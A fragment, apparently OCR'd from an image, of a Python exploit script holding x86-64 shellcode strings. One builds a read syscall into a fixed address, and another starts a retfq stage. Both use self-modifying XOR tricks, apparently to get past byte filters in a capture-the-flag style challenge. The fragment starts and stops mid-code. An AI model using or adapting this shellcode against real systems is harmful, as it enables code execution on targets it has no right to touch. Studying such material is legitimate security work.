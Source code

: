 ```python
pop rcx


push 0x40/*set rax*/

pop rax

xor al,0x49

'''

shellcode_read = '''
/*read(0,0x40404040,0x70)*/

push 0x40404040

pop rsi

push 0x40

pop rax

xor al,0x40

push rax

pop rdi

xor al,0x40

push 0x70

pop rdx

push rbx

pop rax

push 0x5d

pop rcx

xor byte ptr[rax+0x57],cl

push 0x5f

pop rcx

xor byte ptr[rax+0x58],cl

push rdx

pop rax

xor al,0x70
'''

shellcode_retfq = '''
push rbx

pop rax


```